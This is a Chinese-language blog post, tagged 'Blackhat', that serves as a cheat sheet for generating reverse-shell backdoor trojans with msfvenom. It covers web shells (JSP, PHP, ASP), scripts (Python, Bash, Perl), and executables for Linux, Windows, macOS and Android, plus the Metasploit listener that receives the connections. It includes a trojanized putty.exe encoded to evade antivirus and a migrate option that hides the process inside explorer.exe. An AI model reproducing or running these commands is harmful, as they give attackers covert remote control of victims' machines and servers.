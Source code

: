 ```yaml
---
title: 使用msfvenom生成多平台后门木马
name: metasploit-generate-backdoor
date: 2016-4-30
tags: [后门,木马,msfvenom]
categories: [Blackhat]
---
```


* 目录
{:toc}

---

# 使用msfvenom生成多平台后门木马

## 1. 介绍说明

**msfvenom** 是`metasploit`中一款用于生成木马的工具，支持多种平台和语言。需要结合`metasploit`的反向连接使用。

## 2. 木马生成

### 2.1 Web端反弹木马

[ **jsp木马** ]

```shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.15 LPORT=43221 -f raw > shell.jsp
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.15 LPORT=43221 -f war > shell.war
```

[ **php木马** ]

```shell
msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.1.84 LPORT=43221 -f raw > shell.php
```

[ **asp木马** ]

```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.84 LPORT=43221 -f asp > shell.asp
```

> Web端的反弹木马上传至目标服务器中，使用浏览器打开木马路径后触发运行。

### 2.2 Script反弹木马

[ **python木马** ]

```shell
msfvenom -p cmd/unix/reverse_python LHOST=192.168.1.84 LPORT=43221 -f raw > shell.py
```

[ **shell木马** ]

```shell
msfvenom -p cmd/unix/reverse_bash LHOST=192.168.1.84 LPORT=43221 -f raw > shell.sh
```

[ **perl木马** ]

```shell
msfvenom -p cmd/unix/reverse_perl LHOST=192.168.1.84 LPORT=43221 -f raw > shell.pl
```

> 所有脚本木马运行前需要加上运行权限，如`chmod u+x shell.py`，若需要后台运行，则需要加**&**号，如`./shell.sh &`

### 2.3 System反弹木马

[ **linux木马** ]
```shell
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.15 LPORT=43221 -f elf > shell.elf
```

[ **windows木马** ]
```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.15 LPORT=43221 -f exe > shell.exe
msfvenom –p cmd/windows/reverse_powershell lhost=192.168.1.15 lport=43221  > file.bat
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.15 LPORT=43221 -a x86 --platform windows -x putty.exe -k -e x86/shikata_ga_nai -i 3 -b "\x00" -f exe > puttyX.exe
```

[ ~~macosx木马~~ ] (不可用)
```shell
msfvenom -p osx/x86/shell_reverse_tcp LHOST=192.168.1.84 LPORT=43221 -f macho > shell.macho
```

[ **android木马** ]
```shell
msfvenom -p android/meterpreter/reverse_tcp lhost=192.168.1.84 lport=43221 R > system.apk
```

## 3. 反向连接服务

```shell
use exploit/multi/handler
set payload [对应生成的payload]
set lhost 192.168.1.15
set lport 43221
exploit
```

## 附录A 额外的选项列表

**msfvenom** 支持的攻击载荷有很多，可以使用命令`msfvenom -l payloads`列出，若希望查看某个具体的 **payload** 参数，可以使用`msfvenom --payload windows/download_exec --payload-options` 查看。

## 附录B Prepend Migrate隐藏合并进程

在进入`meterpreter`时，会使用`migrate`合并进程存储空间，使用`msfvenom`生成木马时就可以使用 **Prepend Migrate** 进行预订合并操作。

```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.15 LPORT=43221 prependmigrate=true prepenmigrateprocess=explorer.exe -f exe > shell.exe
```